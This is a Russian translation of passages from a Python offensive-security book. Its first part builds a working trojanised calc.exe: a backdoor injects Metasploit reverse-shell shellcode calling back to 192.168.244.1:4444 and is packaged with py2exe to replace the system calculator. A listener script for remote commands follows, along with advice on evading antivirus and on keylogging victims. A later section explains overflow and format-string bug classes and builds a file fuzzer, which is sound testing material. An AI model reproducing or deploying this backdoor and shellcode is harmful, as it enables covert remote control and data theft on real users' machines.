%% # This library is from Chapter 3 and contains all
%% # the necessary defines for process creation

%% # Это библиотека из Главы 3. Она содержит все
%% # необходимые определения для создания процесса

%% import sys
%% from ctypes import *
%% from my_debugger_defines import *

%% kernel32 = windll.kernel32
%% PAGE_EXECUTE_READWRITE = 0x00000040
%% PROCESS_ALL_ACCESS = ( 0x000F0000 | 0x00100000 | 0xFFF )
%% VIRTUAL_MEM = ( 0x1000 | 0x2000 )

%% # This is the original executable
%% path_to_exe = "C:\\calc.exe"

%% startupinfo = STARTUPINFO()
%% process_information = PROCESS_INFORMATION()
%% creation_flags = CREATE_NEW_CONSOLE
%% startupinfo.dwFlags = 0x1
%% startupinfo.wShowWindow = 0x0
%% startupinfo.cb = sizeof(startupinfo)

%% # First things first, fire up that second process
%% # and store its PID so that we can do our injection
%% kernel32.CreateProcessA(path_to_exe,
%%                                           None,
%%                                           None,
%%                                           None,
%%                                           None,
%%                                           creation_flags,
%%                                           None,
%%                                           None,
%%                                           byref(startupinfo),
%%                                           byref(process_information))

%% pid = process_information.dwProcessId
Код не слишком сложный, в нем для вас нет ничего нового. Прежде чем перейти к внедрению кода – рассмотрим, как мы можем скрыть этот самый внедряемый код. Давайте добавим его прямо в код бэкдора; просто присоединим код прямо после секции создания процесса. Наша функция внедрения сможет работать как с внедряемым кодом, так и с внедряемой DLL; просто установите «parameter» в «1», а в переменную «data» поместите путь к DLL. Здесь мы не следуем чистоте, а действуем быстро и грязно. Давайте добавим функцию внедрения в наш файл backdoor.py.

backdoor.py
Код:
%% ...

%% def inject( pid, data, parameter = 0 ):
%%     # Get a handle to the process we are injecting into.
%%     h_process = kernel32.OpenProcess( PROCESS_ALL_ACCESS, False, int(pid) )

%%     if not h_process:
%%         print "[*] Couldn't acquire a handle to PID: %s" % pid
%%         sys.exit(0)

%%     arg_address = kernel32.VirtualAllocEx(h_process, 0, len(data), VIRTUAL_MEM, PAGE_EXECUTE_READWRITE)
%%     written = c_int(0)
%%     kernel32.WriteProcessMemory(h_process, arg_address, data, len(data), byref(written))

%%     thread_id = c_ulong(0)
    
%%     if not parameter:
%%         start_address = arg_address
%%     else:
%%         h_kernel32 = kernel32.GetModuleHandleA("kernel32.dll")
%%         start_address = kernel32.GetProcAddress(h_kernel32,"LoadLibraryA")
%%         parameter = arg_address

%%     if not kernel32.CreateRemoteThread(h_process,None, 0,start_address,parameter,0,byref(thread_id)):
%%         print "[*] Failed to inject the DLL. Exiting."
%%         sys.exit(0)

%%     return True
Теперь нашим бэкдором поддерживается функция внедрения, которая может обрабатывать и «внедрение кода», и «внедрение DLL». Теперь пришло время для вставки шелл-кода, который состоит из двух частей. Одна часть предназначена для предоставления «шелла» (оболочка для связи с атакующим), а другая для завершения процессов. Давайте продолжим добавлять код в наш бэкдор.

backdoor.py
Код:
%% ...

%% # Now we have to climb out of the process we are in
%% # and code inject our new process to kill ourselves
%% #/* win32_reverse - EXITFUNC=thread LHOST=192.168.244.1 LPORT=4444 Size=287 Encoder=None http://metasploit.com */

%% connect_back_shellcode =
%% "\xfc\x6a\xeb\x4d\xe8\xf9\xff\xff\xff\x60\x8b\x6c\x24\x24\x8b\x45" \
%% "\x3c\x8b\x7c\x05\x78\x01\xef\x8b\x4f\x18\x8b\x5f\x20\x01\xeb\x49" \
%% "\x8b\x34\x8b\x01\xee\x31\xc0\x99\xac\x84\xc0\x74\x07\xc1\xca\x0d" \
%% "\x01\xc2\xeb\xf4\x3b\x54\x24\x28\x75\xe5\x8b\x5f\x24\x01\xeb\x66" \
%% "\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb\x03\x2c\x8b\x89\x6c\x24\x1c\x61" \
%% "\xc3\x31\xdb\x64\x8b\x43\x30\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x40" \
%% "\x08\x5e\x68\x8e\x4e\x0e\xec\x50\xff\xd6\x66\x53\x66\x68\x33\x32" \
%% "\x68\x77\x73\x32\x5f\x54\xff\xd0\x68\xcb\xed\xfc\x3b\x50\xff\xd6" \
%% "\x5f\x89\xe5\x66\x81\xed\x08\x02\x55\x6a\x02\xff\xd0\x68\xd9\x09" \
%% "\xf5\xad\x57\xff\xd6\x53\x53\x53\x53\x43\x53\x43\x53\xff\xd0\x68" \
%% "\xc0\xa8\xf4\x01\x66\x68\x11\x5c\x66\x53\x89\xe1\x95\x68\xec\xf9" \
%% "\xaa\x60\x57\xff\xd6\x6a\x10\x51\x55\xff\xd0\x66\x6a\x64\x66\x68" \
%% "\x63\x6d\x6a\x50\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3" \
%% "\xaa\x95\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" \
%% "\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51\x51\x51" \
%% "\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05\xce\x53\xff\xd6" \
%% "\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6\x79\xff\x75\x04\xff\xd6" \
%% "\xff\x77\xfc\xff\xd0\x68\xef\xce\xe0\x60\x53\xff\xd6\xff\xd0"

%% inject( pid, connect_back_shellcode )

%% #/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
%% #Size=159 Encoder=None http://metasploit.com */

%% our_pid = str( kernel32.GetCurrentProcessId() )

%% process_killer_shellcode = \
%% "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \
%% "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \
%% "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \
%% "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \
%% "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \
%% "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \
%% "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \
%% "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \
%% "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \
%% "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00"

%% padding = 4 - ( len( our_pid ) )
%% replace_value = our_pid + ( "\x00" * padding )
%% replace_string= "\x41" * 4
%% process_killer_shellcode =
%% process_killer_shellcode.replace( replace_string, replace_value )

%% # Pop the process killing shellcode in
%% inject( our_pid, process_killer_shellcode )
Хорошо! Передаем идентификатор процесса (PID) в бэкдор и внедряем шелл-код в процесс, который мы породили (calc.exe). Затем убиваем бэкдор. Теперь у нас есть довольно неплохой бэкдор, который использует некоторые хитрости, но что самое главное, мы получаем доступ к атакуемой машине, каждый раз, когда кто-то запускает Калькулятор. Этот подход вы можете использовать в боевых условиях, если у вас есть скомпрометированная система, а пользователь этой системы имеет доступ к защищенному паролем или интересующему вас приложению. В этом случае вы можете подменить файлы и вклиниваться в результат работы такого приложения непосредственно в момент его запуска. Каждый раз, когда пользователь запускает подмененное приложение и в ходит в систему, вы получаете шелл (оболочку), с помощью которой вы можете начать мониторинг нажатий клавиш, перехватывать сетевые пакеты и т.п. Нам осталось решить одну маленькую вещь: Как мы собираемся гарантировать, что у пользователя, против которого мы собираемся провести атаку, установлен Python, который нужен для запуска нашего скрипта? Читайте дальше и вы узнаете о такой замечательной Питоновской библиотеке, как py2exe, которая позволяет превратить ваш скрипт на Питоне в настоящий исполнимый файл Windows, т.е. exe-файл. 

7.2.3 Использование py2exe

Библиотека py2exe [2], позволяет скомпилировать скрипт на Python в полноценный исполнимый файл Windows. Перед ее использованием нужно составить специальный установочный скрипт, в котором определить, что мы хотим скомпилировать. Для компиляции бэкдора мы создадим довольно простой скрипт. Откройте новый файл, назовите его setup.py и введите следующий код.

setup.py
Код:
%% # Backdoor builder
%% from distutils.core import setup
%% import py2exe

%% setup(console=['backdoor.py'],
%%           options = {'py2exe':{'bundle_files':1}},
%%           zipfile = None,
%% )
Да, он настолько прост. Давайте рассмотрим параметры, которые были переданы функции установки. Первый параметр «console» – это имя основного сценария, подлежащего компиляции. Параметры «options» и «zipfile» устанавливаются для объединения Python DLL и всех других зависимых модулей в основной исполняемый файл. Это делает наш бэкдор мобильным, в том смысле, что позволяет перенести его на систему, где нет Питона, и он будет работать. Перед компиляцией проверьте, что файлы my\_debugger\_defines.py, backdoor.py и setup.py находятся в одной и той же директории. Затем перейдите в командную строку и выполните установочный скрипт, как показано ниже:
Код:
%% python setup.py py2exe
После чего вы увидите вывод от процесса компиляции, после окончания которого у вас будет иметься две директории dist и build. В нутрии папки dist вас будет ожидать backdoor.exe. Переименуйте его в calc.exe и скопируйте в целевую систему для тестов. Затем скопируйте оригинальный calc.exe из «C:\\WINDOWS\\system32\\» и положите его в корень диска «C:\\». После чего переместите бэкдор calc.exe в «C:\\WINDOWS\\system32\\». Теперь все что нам нужно, чтобы работать с шеллом, на удаленной системе, это написать простой скрипт для получения и отправки ему команд. Откройте новый файл Python, назовите его backdoor\_shell.py и введите следующий код.

backdoor\_shell.py
Код:
%% import socket
%% import sys

%% host = "192.168.244.1"
%% port = 4444

%% server = socket.socket( socket.AF_INET, socket.SOCK_STREAM )

%% server.bind( ( host, port ) )
%% server.listen( 5 )

%% print "[*] Server bound to %s:%d" % ( host , port )

%% connected = False
%% while 1:

%%     #accept connections from outside
%%     if not connected:
%%          (client, address) = server.accept()
%%         connected = True

%%     print "[*] Accepted Shell Connection"
%%     buffer = ""

%%     while 1:
%%         try:
%%             recv_buffer = client.recv(4096)

%%             print "[*] Received: %s" % recv_buffer
%%             if not len(recv_buffer):
%%                 break
%%             else:
%%                 buffer += recv_buffer
%%         except:
%%             break

%% # We've received everything, now it's time to send some input
%% command = raw_input("Enter Command> ")
%% client.sendall( command + "\r\n\r\n" )
%% print "[*] Sent => %s" % command
Это очень простой сокет-сервер, который просто ожидает соединения и осуществляет чтение/запись в сокет. Запустите сервер, с набором переменных host и port для вашей среды. Затем запустите calc.exe на удаленной системе (на локальном компьютере будет работать так же). После чего вы должны увидеть окно Калькулятора, а ваш сокет-сервер должен зарегистрировать соединение и получить некоторые данные. Для того, чтобы прервать цикл получения данных от удаленной системы нажмите CTRL-C, это позволит вам ввести команду. Не стесняйтесь проявлять креативность, здесь вы можете попробовать такие команды как dir, cd или type, все из которых являются родными командами шелл-оболочки Windows. После ввода каждой команды, вы будете получать результат ее работы. Теперь у вас есть эффективное и немного не заметное средство взаимодействия с бэкдором. Используйте ваше воображении для расширения функциональности; думайте хитро и обходите антивирусы. Плюсами в разработке подобных вещей на Python являются скорость, легкость и многоразовое использование.

Как было видно в этой главе, внедрение кода и DLL-библиотек это две очень полезных и мощных техники. Теперь вы вооружены новым навыком, который пригодится во время пентеста или реверсинга. В следующей главе мы сфокусируемся на использовании фаззеров основанных на Питоне. Будут рассмотрены как собственные, так некоторые open source инструменты.


© Translated by Prosper-H from r0 Crew


Ссылки:

[1] See MSDN CreateRemoteThread Function (http://msdn.microsoft.com/en-us/library/ms682437.aspx)

[2] For the py2exe download, go to (http://sourceforge.net/project/showf...group\_id=15583)

\chapter{Fuzzing}

Fuzzing – был горячей темой в течении некоторого времени, главным образом, потому что это один из самых эффективных методов поиска ошибок в программном обеспечении. Fuzzing - является ничем иным, как создание некорректных или полу-корректных данных для отправки приложению, в попытке вызвать в нем неисправность. В этой главе, мы обсудим различные типы фаззеров, а так же классы ошибок, предоставляющие собой неисправности, которые мы ищем; затем мы создадим файловый фаззер для собственного использования. В последующих главах, мы рассмотрим фрейворк Sulley, а так же фазер ioctlizer, который был разработан для тестирования драйверов Windows.

Приступая к теме фаззинга нужно знать, что существует два типа фаззеров: генерирующие (generation) и мутирующие (mutation). Генерирующие фаззеры создают данные, посылаемые тестируемой программе; мутирующие фазеры берут части уже существующих данных и изменяют их. Примером генерирующего фаззера могло бы быть что-то, что создает набор неправильных HTTP-запросов и отправляет их тестируемому веб-серверу. Мутирующим фаззером могло бы быть что-то, что перехватывает и изменяет пакеты HTTP-запросов перед их отправкой веб-серверу. 

Для того, чтобы понять, как создавать эффективные фаззеры, нужно вначале рассмотреть общие классы ошибок, которые они способны выявлять [1]. Ниже представлена подборка наиболее общих ошибок, существующих в приложениях сегодня. Далее мы покажем вам, как их можно спровоцировать с помощью вашего собственно фаззера. 


8.1 Bug Classes

При анализе программного обеспечения на ошибки, хакер или реверс-инженер ищет определенные баги, которые позволят ему взять под свой контроль выполнением кода в приложении. Фаззеры могут предоставить автоматизированный способ поиска багов, которые помогают хакеру: получать контроль над системой, повышать привилегии в системе или воровать информацию, к которой у тестируемого приложения есть доступ. Мы сосредоточимся на багах, которые обычно обнаруживаются в программном обеспечении, которое работает в качестве независимого процесса. Обнаружение ошибок в таких программах, с наибольшей вероятностью, может привести к компрометации всей системы. 

8.1.1 Buffer Overflows

Переполнение буфера является наиболее распространенным типом ошибок в программном обеспечении. Все виды безобидных функций управления памятью, манипулирования строками и даже внутренняя функциональность, являющаяся частью языка программирования, как раз и есть тем, что служит появлению ошибок переполнения буфера в программном обеспечении.

Короче говоря, переполнение буфера происходит тогда, когда данные сохраняются в области памяти, которая слишком мала, чтобы хранить их. Для объяснения этого понятия будем думать о буфере, как о ведре, которое может содержать 10 литров воды. Ничего не случится, если мы нальем в ведро две чашки воды, или заполним его наполовину, или даже до краев. Но все мы знаем, что случится, если попытаться налить 15 литров воды – вода выльется на пол… По сути тоже самое происходит и в программном обеспечении; когда имеется слишком много воды (данных), она выливается из ведра (буфер) и разливается по полу (память). Когда атакующий может управлять способом перезаписи памяти, он находит на пути к получению возможности полного выполнения кода и, в конечном счете, компрометации системы в той или иной форме. Есть два основных типа переполнения буфера: переполнение стека и переполнение кучи. Эти типы ведут себя совершенно по разному, но приводят к одному и тому же результату – атакующий контролирует выполнение кода.

Переполнение стека является характерным переполнением буфера, которое впоследствии перезаписывает данные в стеке, что может быть использовано в качестве средства контроля над выполнением программы. Выполнение кода, может быть осуществлено из-за переполнения стека атакующим, что позволит: перезаписать адрес возврата из функции, заменить указатель на функции, заменить значения переменных или изменить цепочку выполнения обработчиков исключения в нутрии приложения. 

Переполнение кучи происходит в пределах сегмента кучи, процесса выполнения, где приложение динамически выделяет память во время выполнения. Куча состоит из блоков, которые связаны между собой метадынными. Когда происходит переполнение кучи, атакующий имеет возможность перезаписать метаданные в блоке, расположенном рядом с той областью, которая переполнилась. Когда это происходит, он может управлять записью в произвольные места памяти, которые могут включать: переменные, указатели на функции, маркеры безопасности (security tokens) или любое количество других важных структур данных, которые могут храниться в куче во время переполнения. Отследить переполнение кучи на начальной стадии может быть довольно сложной задачей, поскольку блоки, которые были повреждены, могут использоваться через некоторый промежуток времени. Эта задержка, до срабатывания нарушения прав доступа, может создать некоторые проблемы, когда вы будете пытаться отследить сбой, во время выполнения фаззинга.

MICROSOFT GLOBAL FLAGS

Microsoft had the application developer (and exploit writer) in mind when it created the Windows operating system. Global flags (Gflags) представляет собой набор диагностики и параметров отладки, которые позволяют отслеживать, логировать (log) и отлаживать программное обеспечение с очень высокою степенью детализации. Эти параметры могут быть использованы в Microsoft Windows 2000, XP Professional и Server 2003.

Функцией, в которой мы больше всего заинтересованы, является верификатор кучи страниц (the page heap verifier). Когда она включается для процесса, верификатор отслеживает динамические операции с памятью, включая все выделения и освобождения. Но в действительности хорошим аспектом является то, что она вызывает остановку отладчика в момент повреждения кучи, что позволяет остановиться на инструкции, которая вызвала повреждение. Это багхантеру отслеживать ошибки связанные с кучей. 

Для включения верификатора кучи нужно отредактировать Gflags. Сделать это можно с помощью удобной утилиты gflags.exe, которую Microsoft предоставляет бесплатно. Вы можете загрузить ее по следующему адресу:

http://www.microsoft.com/downloads/d...displaylang=en.

Immunity также создал библиотеку Gflags и связал ее с PyCommand, чтобы можно было производить изменения «флагов» из по отладчика. Сама библиотека поставляется вместе с отладчиком, который можно загрузить по следующему адресу: http://debugger.immunityinc.com/
С точки зрения фаззинга, для того чтобы выявить переполнение буфера, нужно просто попытаться передать очень большое количество данных в тестируемое приложение, в надежде, что это вызовет переполнение. 

Далее мы рассмотрим целочисленные переполнения, являющиеся еще одним распространенным классом ошибок, которые содержатся в программном обеспечении.

8.1.2 Integer Overflows

Целочисленное переполнение является интересным классом ошибок. Оно основано на используемом размере целых чисел, и том, как процессор обрабатывает арифметические операции над этими числами. Целое число (со знаком), размер которого равен 2 байтам, может содержать значения от -32767 до 32767. Целочисленное переполнение происходит при попытке сохранить значение вне этого диапазона (т.е. число больше 32767 или меньше -32767, или другими словами оно не умещается в 2 байта). В этом случае процессор отбрасывает биты старшего разряда, чтобы успешно сохранить значение. На первый взгляд это не похоже на большую проблему, но давайте посмотрим пример, в котором показано, как целочисленное переполнение может привести к выделению слишком маленького места и возможно, в результате, в будущем приведет к переполнению буфера.

Код:
%% MOV EAX, [ESP + 0x8]
%% LEA EDI, [EAX + 0x24]
%% PUSH EDI
%% CALL msvcrt.malloc
Первая инструкция берет параметр из стека [ESP + 0x8] и загружает его в EAX. Следующая инструкция складывает 0x24 c EAX и сохраняет результат в EDI. Затем мы передаем результат этого сложения в функции выделения памяти malloc, в качестве единственного параметра, который является размером запрашиваемой области памяти для выделения. Все выглядит довольно безобидно, правда? Если предположить что в EAX содержится очень большое число, которое находится рядом с максимально возможным значением, то в случае добавления, например, 0x24 произойдет его переполнение, и в конечном итоге – EAX будет содержать маленькое число. Посмотрите на Листинг 8-1. На нем можно видеть то, что происходило бы, если бы параметр стека находился под нашим контролем, в момент, когда мы передали бы в нем (параметре) большое значение 0xFFFFFFF5.

Listing 8-1: Arithmetic operation on a signed integer under our control
Код:
%% Stack Parameter => 0xFFFFFFF5
%% Arithmetic Operation => 0xFFFFFFF5 + 0x24
%% Arithmetic Result => 0x100000019 (larger than 32 bits)
%% Processor Truncates => 0x00000019
Если это произойдет, то malloc выделит только 0x19 байт, которые могли бы быть намного меньшей частью памяти, чем та, какую разработчик рассчитывал выделить. Если в этот небольшой буфер предполагается сохранить большую порцию данных, то произойдет переполнение буфера. Для переполнения целого числа с помощью фаззера, мы должны убедиться, что передаем как высокие положительные числа, так и низкие отрицательные в попытке достигнуть целочисленного переполнения, которое могло бы привести к нежелательному поведению тестируемого приложения или даже полного переполнения буфера.

Далее мы перейдем к атакам на форматную строку, которые являются еще одним распространенным классом ошибок, в современном программном обеспечении.

8.1.3 Format String Attacks

Атаки на форматную строку, включают возможность ввода данных (атакующим), которые обрабатываются как спецификаторы в определенных функциях обработки строк, таких как, например, функция printf языка С. Давайте сначала рассмотрим прототип функции printf:

Код:
%% int printf( const char * format, ... );
Первым параметром является строка форматирования, которую мы будем объединять с любым числом дополнительных параметров, которые представляют собой определенные значения и описываются с помощью конкретных спецификаторов. Примером этого может быть:

Код:
%% int test = 10000;
%% printf("We have written %d lines of code so far.", test);
%% Код:
%% Output:

%% We have written 10000 lines of code so far.
Парметр %d является спецификатором. Если криворукий программист, забудет положить, какое-либо значение в спецификатор, перед вызовом функции, то вы увидите что-то вроде этого:

Код:
%% char* test = "%x";
%% printf(test);
%% Код:
%% Output:

%% 5a88c3188
Это сильно отличается от того, что мы видели ранее. Если в строке передаваемой функции printf, присутствует спецификатор, который не связан с каким-либо аргументом функции, то в качестве недостающего аргумента функция printf используются значения из стека! В нашем случае число 0x5a88c3188, которое вы видите, является либо частью каких-то данных сохраненных в стеке, либо указателем на данные в памяти. Есть два наиболее интересных спецификатора %s и %n. Спецификатор %s говорит строковой функции сканировать память на наличие строки до тех пор, пока она не встретит NULL-байт, указывающий на конец строки. Это удобно либо для чтения больших объемов данных, либо для того, чтобы узнать, что храниться по определенному адресу, либо для вызова сбоя в приложении, обратившись к памяти, запрещенной для чтения. Спецификатор %n уникален в том, что позволяет вам писать данные в память, вместо их чтения. Это позволяет атакующему перезаписать адрес возврата или указатель на функцию, что в любом случае приведет к произвольному выполнению кода. С точки зрения фаззинга, нам нужно просто убедиться, что that the test cases we are generating pass in some of these format specifiers in an attempt to exercise a misused string function that accepts our format specifier.

Теперь, когда мы рассмотрели наиболее распространенные классы ошибок, пришло время приступить к созданию нашего первого фаззера. Это будет простой генерирующий файловый фаззер, который сможет мутировать в любой файловый формат. Мы также задействуем PyDbg для контроля и отслеживания сбоев в тестируемом программном обеспечении. Вперед!


8.2 File Fuzzer

Уязвимости формата файла быстро становятся вектором для атак с клиентской стороны, поэтому, естественно, что мы должны быть заинтересованы в поиске ошибок в парсерах формата файлов. К тому же, нам нужно иметь возможность работать со всеми различными видами форматов, чтобы получить наибольшую выгоду, причем не важно, тестируем ли мы антивирусные продукты или программы для чтения текста. Мы также должны убедиться в том, что у нас подключена некоторая отладочная функциональность, с помощью которой мы сможем поймать информацию о краше (crash), который, в свою очередь, позволит определить – нашли ли мы эксплуатируемую уязвимость или нет. Под конец, мы добавим некоторые возможности электронной почты, чтобы уведомлять и посылать вам информацию о сбоях (crash) всякий раз, как они будут происходить. Это может быть полезно, если у вас есть несколько фаззеров, работающих с множеством целей, и вам нужно знать, когда можно приступить к исследованию сбоя. Первым шагом должно быть создание скелета класса, с функциональностью простого выбора файлов (случайным образом), которая будет заботиться об открытии случайных файлов для мутации. Откройте новый Python файл, назовите его file\_fuzzer.py и введите следующий код.

file\_fuzzer.py
Код:
%% from pydbg import *
%% from pydbg.defines import *

%% import utils
%% import random
%% import sys
%% import struct
%% import threading
%% import os
%% import shutil
%% import time
%% import getopt

%% class file_fuzzer:

%%     def __init__(self, exe_path, ext, notify):

%%         self.exe_path = exe_path
%%         self.ext = ext
%%         self.notify_crash = notify
%%         self.orig_file = None
%%         self.mutated_file = None
%%         self.iteration = 0
%%         self.exe_path = exe_path
%%         self.orig_file = None
%%         self.mutated_file = None
%%         self.iteration = 0
%%         self.crash = None
%%         self.send_notify = False
%%         self.pid = None
%%         self.in_accessv_handler = False
%%         self.dbg = None
%%         self.running = False
%%         self.ready = False

%%         # Optional
%%         self.smtpserver = 'mail.nostarch.com'
%%         self.recipients = ['jms@bughunter.ca',]
%%         self.sender = 'jms@bughunter.ca'
        
%%         self.test_cases = [ "%s%n%s%n%s%n", "\xff", "\x00", "A" ]

%%     def file_picker( self ):

%%         file_list = os.listdir("examples/")
%%         list_length = len(file_list)
%%         file = file_list[random.randint(0, list_length-1)]
%%         shutil.copy("examples\\%s" % file,"test.%s" % self.ext)

%%         return file
Скелет класса, нашего файлового фаззера, определяет глобальные переменные для отслеживания основной информации. Функция file\_picker просто использует встроенные функции из Python для того, чтобы получить список файлов в каталоге и случайным образом выбрать один из имеющихся для мутации. Теперь нам нужно сделать некоторую работу: загрузить тестируемое программное обеспечение; отследить его сбои (crashers) и завершить его, когда разбор (parsing) документа будет закончен. На первом этапе нужно загрузить тестируемое ПО в поток (thread) отладчика и установить обработчик нарушения доступа (access violation handler). Затем нужно породить второй поток, чтобы контролировать первый. Это позволит второму потоку, по прошествии определенного количества времени, убить первый. Также будет добавлена функция уведомления по email. Давайте добавим эти функции в наш класс.

file\_fuzzer.py
Код:
%% ...

%%     def fuzz( self ):

%%         while 1:
%%             (#1): if not self.running:

%%                 # We first snag a file for mutation
%%                 self.test_file = self.file_picker()
%%                 (#2): self.mutate_file()

%%                 # Start up the debugger thread
%%                 (#3): pydbg_thread = threading.Thread(target=self.start_debugger)
%%                 pydbg_thread.setDaemon(0)
%%                 pydbg_thread.start()

%%                 while self.pid == None:
%%                     time.sleep(1)

%%                 # Start up the monitoring thread
%%                 (#4): monitor_thread = threading.Thread(target=self.monitor_debugger)
%%                 monitor_thread.setDaemon(0)
%%                 monitor_thread.start()

%%                 self.iteration += 1
%%             else:
%%                 time.sleep(1)

%%     # Our primary debugger thread that the application
%%     # runs under
%%     def start_debugger(self):

%%         print "[*] Starting debugger for iteration: %d" % self.iteration
%%         self.running = True
%%         self.dbg = pydbg()

%%         self.dbg.set_callback(EXCEPTION_ACCESS_VIOLATION,self.check_accessv)
%%         pid = self.dbg.load(self.exe_path,"test.%s" % self.ext)

%%         self.pid = self.dbg.pid
%%         self.dbg.run()

%%     # Our access violation handler that traps the crash
%%     # information and stores it
%%     def check_accessv(self,dbg):

%%         if dbg.dbg.u.Exception.dwFirstChance:

%%             return DBG_CONTINUE

%%         print "[*] Woot! Handling an access violation!"
%%         self.in_accessv_handler = True
%%         crash_bin = utils.crash_binning.crash_binning()
%%         crash_bin.record_crash(dbg)
%%         self.crash = crash_bin.crash_synopsis()

%%         # Write out the crash informations
%%         crash_fd = open("crashes\\crash-%d" % self.iteration,"w")
%%         crash_fd.write(self.crash)

%%         # Now back up the files
%%         shutil.copy("test.%s" % self.ext,"crashes\\%d.%s" % (self.iteration,self.ext))
%%         shutil.copy("examples\\%s" % self.test_file,"crashes\\%d_orig.%s" % (self.iteration,self.ext))

%%         self.dbg.terminate_process()
%%         self.in_accessv_handler = False
%%         self.running = False

%%         return DBG_EXCEPTION_NOT_HANDLED

%%     # This is our monitoring function that allows the application
%%     # to run for a few seconds and then it terminates it
%%     def monitor_debugger(self):

%%         counter = 0

%%         print "[*] Monitor thread for pid: %d waiting." % self.pid,
%%         while counter < 3:
%%             time.sleep(1)
%%             print counter,
%%             counter += 1

%%         if self.in_accessv_handler != True:
%%             time.sleep(1)
%%             self.dbg.terminate_process()
%%             self.pid = None
%%             self.running = False
%%         else:
%%             print "[*] The access violation handler is doing its business. Waiting."

%%             while self.running:
%%                 time.sleep(1)

%%     # Our emailing routine to ship out crash information
%%     def notify(self):

%%         crash_message = "From:%s\r\n\r\nTo:\r\n\r\nIteration: %d\n\nOutput:\n\n %s" % (self.sender, self.iteration, self.crash)

%%         session = smtplib.SMTP(smtpserver)
%%         session.sendmail(sender, recipients, crash_message)
%%         session.quit()
    
%%         return
Теперь у нас есть основная логика, позволяющая управлять приложением во время фаззинга, поэтому давайте кратко рассмотрим ее функции. На первом шаге (\#1) нужно убедиться, что фаззинг еще не запущен. Флаг self.running также будет установлен, если обработчик нарушения прав доступа (access violation handler) будет занят составлением отчета о сбое (crash). После того как был выбран файл для мутации, он передается в простую функцию мутации (\#2), которую мы в скорее напишем.

После того как функция мутатора отработала, мы запускаем наш отладочный поток (\#3), который просто запускает приложение и передает покалеченный (mutated) файл в качестве аргумента командной строки. Затем мы ожидаем в цикле пока отладочный поток зарегистрирует PID тестируемого приложения. Как только мы получили PID – запускаем контролирующий поток (\#4), чья работа заключается в уничтожении (kill) приложения по прошествии определенного количества времени. После того как контролирующий поток был запущен, мы увеличиваем счетчик (count) и повторно входим в наш основной цикл до тех пор, пока не придет время выбрать новый файл и начать фаззинг снова. Теперь давайте добавим простую функцию мутации.

file\_fuzzer.py
Код:
%% ...
%%     def mutate_file( self ):

%%         # Pull the contents of the file into a buffer
%%         fd = open("test.%s" % self.ext, "rb")
%%         stream = fd.read()
%%         fd.close()

%%         # The fuzzing meat and potatoes, really simple
%%         # Take a random test case and apply it to a random position
%%         # in the file
%%         (#1): test_case = self.test_cases[random.randint(0,len(self.test_cases)-1)]

%%         (#2): stream_length = len(stream)
%%         rand_offset = random.randint(0, stream_length - 1 )
%%         rand_len = random.randint(1, 1000)

%%         # Now take the test case and repeat it
%%         test_case = test_case * rand_len

%%         # Apply it to the buffer, we are just
%%         # splicing in our fuzz data
%%         (#3): fuzz_file = stream[0:rand_offset]
%%         fuzz_file += str(test_case)
%%         fuzz_file += stream[rand_offset:]

%%         # Write out the file
%%         fd = open("test.%s" % self.ext, "wb")
%%         fd.write( fuzz_file )
%%         fd.close()

%%         return
Это элементарный мутатор. Мы случайным образом выбираем текст из глобального списка (\#1); затем выбираем случайно смешение и длину новых данных, которые будут записаны в файл (\#2). Затем мы разрезаем файл (\#3), используя смещение и длину, чтобы внести в него изменения. Когда мы закончим и запишем файл, отладочный поток сразу же использует его для тестирования приложения. Теперь давайте добавим код управления нашим фаззером.

file\_fuzzer.py
Код:
%% ...
%%     def print_usage():

%%         print "[*]"
%%         print "[*] file_fuzzer.py -e <Executable Path> -x <File Extension>"
%%         print "[*]"

%%         sys.exit(0)

%% if __name__ == "__main__":

%%     print "[*] Generic File Fuzzer."
    
%%     # This is the path to the document parser
%%     # and the filename extension to use
%%     try:
%%         opts, argo = getopt.getopt(sys.argv[1:],"e:x:n")
%%     except getopt.GetoptError:
%%         print_usage()

%%     exe_path = None
%%     ext = None
%%     notify = False

%%     for o,a in opts:
%%         if o == "-e":
%%             exe_path = a
%%         elif o == "-x":
%%             ext = a
%%         elif o == "-n":
%%             notify = True

%%     if exe_path is not None and ext is not None:
%%         fuzzer = file_fuzzer( exe_path, ext, notify )
%%         fuzzer.fuzz()
%%     else:
%%         print_usage()
Тут мы добавили возможность обработки параметров командной строки. Параметр -e это путь к тестируемой программе. Параметр -x является расширением файла, которое относится к тестируемому приложения (например, ".txt", ".pdf", etc). Необязательный параметр -n говорит фаззеру, хотим ли мы получать уведомления или нет. Теперь давайте протестируем скрипт.

